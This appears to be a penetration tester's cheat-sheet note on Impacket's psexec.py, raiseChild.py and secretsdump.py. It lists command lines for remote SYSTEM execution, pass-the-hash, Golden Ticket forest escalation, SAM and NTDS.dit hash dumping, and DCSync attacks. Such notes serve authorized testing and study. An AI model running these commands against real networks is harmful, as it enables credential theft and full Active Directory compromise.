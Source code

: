 ## psexec.py

Similiar to [[Sysinternals-Psexec]] like functionality example using [RemComSvc](https://github.com/kavika13/RemCom). Runs as nt system - wmiexec.py runs as Administrator.
```bash
psexec.py $domain/$username:$password@$IP <command>
psexec.py $domain/$username:$password@$IP -hash
```

## raiseChild.py

This script implements a child-domain to forest privilege escalation by (ab)using the concept of Golden Tickets and ExtraSids. [[Attacking-Kerberos]] 
```bash
python raiseChild.py childDomain.net/$adminuser
python raiseChild.py childDomain.net/$adminuser:mypwd
python raiseChild.py -hashes LMHASH:NTHASH childDomain.net/$adminuser
```
This will perform the attack and then psexec against target-exec as Enterprise Admin
```bash
python raiseChild.py -target-exec targetHost childDomainn.net/$adminuser
```
This will save the final goldenTicket generated in the ccache target file
```bash
python raiseChild.py -w ccache childDomain.net/$adminuser
```

## secretsdump.py

```bash
secretsdump.py -target-ip $IP $domain/$user@$ip
```

Exploit DCSync Privileges
```bash
secretsdump.py -dc-ip $IP $domain/$user@$ip
```

Dump hashes from SAM database [[AD-Credential-Harvesting]]
```bash
secretsdump.py -sam $exfiled_sam -system $exfiled_system LOCAL
```

Dump a NTDS hashes
```bash
impacket-secretsdump -system system -security security -ntds ntds.dit LOCAL
```
[medium](https://bond-o.medium.com/extracting-and-cracking-ntds-dit-2b266214f277)

Perform a [[AD-DC-Sync-Attack]]
```bash
impacket-secretsdump -just-dc $domain/$user@$DC_IPaddress
# For just ntlms 
-just-dc-ntlm 
```
